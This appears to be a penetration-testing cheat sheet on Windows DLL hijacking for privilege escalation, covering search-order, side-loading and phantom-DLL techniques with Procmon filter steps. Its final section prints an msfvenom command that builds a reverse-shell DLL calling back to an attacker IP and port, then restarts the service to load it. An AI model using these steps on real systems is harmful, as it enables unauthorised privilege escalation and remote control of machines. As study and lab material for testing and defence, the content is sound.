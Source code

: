 ##### Explanation
Windows programs use DLL library files to work, and to use certain functions. There are checks for DLL files in a certain order:

##### Requirements
A program run as another user

### DLL redirection
Edit the %PATH% to include the malicious `.dll` first.

### DLL Side-loading (WinSxS replacement)
Replace the legitimate `.dll`  with the malicious one, on the WinSxS end (think replacing python imports on the system-end)

### DLL replacement
Check for writability of DLL files called by a program run as another user.
If there is writability, replace the DLL

### DLL Search order hijacking
If the absolute path is not specified, `.dll` files are searched for in this order:

##### DLL safe search enabled (default)
The directory from which the application is loaded (`.exe` location)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
The current directory (from which the command is run)
PATH

##### DLL safe search disabled (suspicious)
The directory from which the application is loaded (`.exe` location)
The current directory (from which the command is run)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
PATH

### Phantom DLL Hijacking with Procmon
Using RDP, open Procomon and select "Filter".

In the left-side dropdown, select "Process name".
Make sure the second dropdown equals "is".
Write the executable name (example: `dllservice.exe`) in the text field.
Add the rule, and apply:
```
process name is SERIVCE_NAME then include
```

Add another rule:
In the left-side dropdown, select "Result".
In the middle dropdown, select "is".
In the input box, type "NAME NOT FOUND".
Add and apply the rule:
```
result is NAME NOT FOUND then include
```

Run/start the program/service, check back in Procmon.
Look for the attempted calls to `.dll` libraries.
If one of the attemted call locations is writable, place a reverse shell.

Generate the DLL:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.1.167 LPORT=4444 -f dll -o msf.dll
```
OR
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
Note: sometimes, you'll have to make the DLL export certain functions (think python libraries), research [online](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Place the `.dll` in the writable folder, and restart the application:
```
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```